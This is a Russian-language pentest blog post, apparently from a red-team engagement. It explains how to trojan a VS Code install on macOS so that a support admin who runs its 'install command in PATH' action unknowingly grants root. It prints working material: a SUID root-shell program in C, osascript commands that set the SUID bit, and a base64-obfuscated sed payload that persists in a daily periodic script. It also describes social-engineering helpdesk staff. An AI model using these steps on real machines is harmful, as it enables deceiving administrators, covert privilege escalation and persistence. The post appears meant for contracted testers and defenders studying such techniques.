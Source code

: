 ```yaml
---
layout: post
title: "Abuse VS Code Installation for LPE on macOS [Pentest Awards 2023]"
date: 2024-05-19 22:00:00 +0300
author: snovvcrash
tags: [pentest-awards, xakep-ru, macos, phishing, vs-code]
---
```


[//]: # (2023-03-10)

Когда тебе нужно заскамить сотрудников техподдержки на угон их кред и привилегий в macOS (естественно, действуя в рамках контракта о пентесте), можно смело предлагать завершить установку легитимного ПО, которое ты предварительно кастомизировал. Для примера разберем, как это сделать с любимым всеми Visual Studio Code.

<!--cut-->

<p align="right">
  <a href="https://award.awillix.ru/2023"><img src="https://img.shields.io/badge/Awillix-Pentest%20Awards-087fff?style=flat-square" alt="award-awillix-badge.svg" /></a>
  <a href="https://xakep.ru/2023/10/03/macos-lpe/"><img src="https://img.shields.io/badge/%5d%5b-%d0%a5%d0%b0%d0%ba%d0%b5%d1%80-red?style=flat-square" alt="xakep-badge.svg" /></a>
</p>

Этот способ мы применили по заказу одного **очень** крупного российского холдинга в ходе комплексной операции Red Team. Заказчик настоял на реализации следующего сценария: нас «устраивают» в компанию по согласованной легенде как внешних сотрудников на удаленке с выданным MacBook в качестве рабочего ноута.

Так как привилегии обычных сотрудников на маках в организации сильно урезаны, обращения к техподдержке по большей части состоят из писем вроде «админ, помоги мне установить программу». Из этого родилась идея воспользоваться этой особенностью рабочего процесса для повышения привилегий на маке до рута и заполучить служебную учетку из `/etc/krb5.keytab` для развития дальнейших атак на AD.

> **WARNING**
>
> Статья имеет ознакомительный характер и предназначена для специалистов по безопасности, проводящих тестирование в рамках контракта. Автор не несет ответственности за любой вред, причиненный с применением изложенной информации. Распространение вредоносных программ, нарушение работы систем и нарушение тайны переписки преследуются по закону.

[![banner.png](/assets/images/vs-code-lpe-macos/banner.png)](/assets/images/vs-code-lpe-macos/banner.png)
{:.center-image}

* TOC
{:toc}

# Спуфинг диалогового окна аутентификации

В паблике есть [мануал](https://www.mdsec.co.uk/2021/01/macos-post-exploitation-shenanigans-with-vscode-extensions/) по написанию вредоносного расширения, которое умеет само стартовать при запуске VS Code и светить назойливым окном в глаза ненавистному админу, клянча его пароль.

![![password-dialog-spoofing.png](/assets/images/vs-code-lpe-macos/password-dialog-spoofing.png)](/assets/images/vs-code-lpe-macos/password-dialog-spoofing.png)
{:.center-image}

Достоинство этого метода в том, что можно получить креды привилегированной учетки в открытом виде. Расширение пишется в пользовательскую директорию `~/.vscode`, поэтому даже если у админа стоит чистый VS Code, запуск модульного окна сохранится.

Недостаток в том, что надо поймать **очень** уставшего админа, чтобы предприятие взлетело — диалоговое окно рисуется с помощью AppleScript, поэтому выглядит весьма халтурно и серьезно отличается от встроенных окон запроса расширенных привилегий. В связи с этим мы решили найти другой способ абьюзить VS Code.

# Модификация дистрибутива VS Code

Несмотря на то, что VS Code можно запускать с привилегиями пользователя, внутри есть дополнительные функции, которые требуют прав администратора. Например, [интеграция](https://code.visualstudio.com/docs/setup/mac#_launching-from-the-command-line) команды `code` в консоль (для этого вносятся изменения в системный `PATH`). В VS Code это делается командой из Command Palette (Command-Shift-P).

Хотя разработчики Code настоятельно [не рекомендуют](https://code.visualstudio.com/api/ux-guidelines/command-palette) изменять встроенные системные команды, хакеры любят жить опасно, поэтому способ есть.

![![command-palette-do-dont.png](/assets/images/vs-code-lpe-macos/command-palette-do-dont.png)](/assets/images/vs-code-lpe-macos/command-palette-do-dont.png)
{:.center-image}

![![command-palette-install-code.png](/assets/images/vs-code-lpe-macos/command-palette-install-code.png)](/assets/images/vs-code-lpe-macos/command-palette-install-code.png)
{:.center-image}

Грепнув каталог с VS Code по строке `command in PATH`, найдем отсылку к JS-функции `installCommandLine`:

```terminal?prompt=$
$ pwd 
/Applications/Visual Studio Code.app 

$ grep -r 'command in PATH' 
./Contents/Resources/app/out/vs/workbench/workbench.desktop.main.js:... class S extends I.Action2{constructor() {super({id:"workbench.action.installCommandLine",title:{value:(0,t.localize)(1,null,L.default.applicationName),original:`Install  '${L.default.applicationName}' command in PATH`} ... 
```

Далее, грепнув по `installCommandLine`, найдем само тело исполняемой команды.

```terminal?prompt=$
$ grep -r 'installShellCommand' 
./Contents/Resources/app/out/vs/code/electron-main/main.js:... async installShellCommand(T){const{source:U,target:H}=await this.n();try{const{symbolicLink:re}=await p.SymlinkSupport.stat(U);if(re&&!re.dangling){const Y=await(0,u.realpath) (U);if(H===Y)return}await p.Promises.unlink(U)}catch(re){if(re.code!=="ENOENT")throw re}try{await p.Promises.symlink(H,U)}catch(re) {if(re.code!=="EACCES"&&re.code!=="ENOENT")throw re;const{response:Y}=await this.showMessageBox(T,{type:"info",message:(0,y.localize) (0,null,this.h.nameShort),buttons:[(0,y.localize)(1,null),(0,y.localize)(2,null)]});if(Y===0)try{const ne=`osascript -e "do shell script \\"mkdir -p /usr/local/bin && ln -sf '${H}' '${U}'\\" with administrator privileges"`;await(0,O.promisify)(E.exec) (ne)}catch{throw new Error((0,y.localize)(3,null,U))}}} ...
```

Как видишь, ничто не мешает нам добавить собственное действие к команде `osascript`, но надо придумать, что именно мы можем сделать для сохранения и последующего восстановления привилегированного доступа.

```bash
osascript -e "do shell script \\"mkdir -p /usr/local/bin && ln -sf '${H}' '${U}'\\" with administrator privileges"
```

Курс Offensive Security «EXP-312: Advanced macOS Control Bypasses» предлагает изменить настройки PAM-модуля (а именно перечня обязательных критериев при аутентификации через sudo), чтобы имперсонировать root без пароля. Это делается с помощью изменения файла настроек `/etc/pam.d/sudo`.

![![exp-312-pam.png](/assets/images/vs-code-lpe-macos/exp-312-pam.png)](/assets/images/vs-code-lpe-macos/exp-312-pam.png)
{:.center-image}

К сожалению, этот способ не взлетел в macOS 13.2.1, поскольку теперь недостаточно быть рутом, чтобы менять содержимое чувствительных файлов на диске (все, что связано с кредами и аутентификацией). Для этого у процесса, который запрашивает такие изменения, должна быть привилегия Full Disk Access, которая навешивается только через GUI.

Мы решили пойти дедовским способом и создать SUID-бинарь (благо хоть это на маке работает):

```cpp
// gcc -o suidshell suidshell.c
// ./suidshell root

#include <stdlib.h>
#include <sys/types.h>
#include <pwd.h>
#include <unistd.h>

void change_to_user(const char *szUserName)
{
    struct passwd *pw;
    pw = getpwnam(szUserName);
    if (pw != NULL)
    {
        uid_t uid = pw->pw_uid;
        if (setuid(uid) == 0) system("/bin/bash -p");
    }
}

int main(int argc, char **argv)
{
    if (argc == 1) return 1;
    for (int i = 1; i < argc; i++) change_to_user(argv[i]);
    return 0;
}
```

Теперь можно добавить веселые команды к куску кода, нагрепанному выше, чтобы навесить нужного владельца и SUID-бит на шелл:

```bash
osascript -e "do shell script \\"chown root:wheel /tmp/suidshell && chmod u+s /tmp/suidshell && mkdir -p /usr/local/bin && ln -sf  '${H}' '${U}'\\" with administrator privileges" 
```

Еще немного покопавшись, мы открыли другую интересную возможность — вместо того, чтобы класть SUID-бинарь на диск непосредственно перед фишингом, можно добавить команды выше к задаче `/etc/periodic/daily/110.clean-tmps`, которая выполняется ежедневно:

```bash
sed -i '' -e 's/exit \$rc/chown root:wheel \/tmp\/\suidshell \&\& chmod u+s \/tmp\/\suidshell\nexit \$rc/' /etc/periodic/daily/110.clean-tmps

osascript -e "do shell script \\" echo 
c2VkIC1pICcnIC1lICdzL2V4aXQgXCRyYy9jaG93biByb290OndoZWVsIFwvdG1wXC9cc3VpZHNoZWxsIFwmXCYgY2htb2QgdStzIFwvdG1wXC9cc3VpZHNoZWxsXG5leGl0IF wkcmMvJyAvZXRjL3BlcmlvZGljL2RhaWx5LzExMC5jbGVhbi10bXBz | base64 -d | sh && mkdir -p /usr/local/bin && ln -sf '${H}' '${U}'\\" with administrator privileges"
```

Так можно дифференцировать ход LPE: сначала отредактировать запускаемую по расписанию задачу, а потом принести SUID-шелл и дожидаться его повышения.

![![before-elevation.png](/assets/images/vs-code-lpe-macos/before-elevation.png)](/assets/images/vs-code-lpe-macos/before-elevation.png)
{:.center-image}

До выполнения скам-команды
{:.quote}

![![elevation.png](/assets/images/vs-code-lpe-macos/elevation.png)](/assets/images/vs-code-lpe-macos/elevation.png)
{:.center-image}

Выполнение скам-команды
{:.quote}

![![after-elevation.png](/assets/images/vs-code-lpe-macos/after-elevation.png)](/assets/images/vs-code-lpe-macos/after-elevation.png)
{:.center-image}

После выполнения скам-команды
{:.quote}

В результате получаем нативное диалоговое окно для запроса повышения привилегий. Пожалуй, это перевешивает все недостатки. Какие? Увы, так нельзя утащить пароль админа в виде текста, к тому же нужно класть на диск дополнительный бинарь, что может вызвать срабатывание мониторинга, если он используется. И, конечно, если админ притащит свой экземпляр VS Code, жмем F to pay respects.

# Вывод

Прикинувшись беспомощным юзером, полностью находящимся во власти всемогущего админа (то есть сотрудника техподдержки), можно чужими руками «бесплатно» повысить себе локальные привилегии на макбуке и потенциально разжиться дополнительными доступами. GGWP!
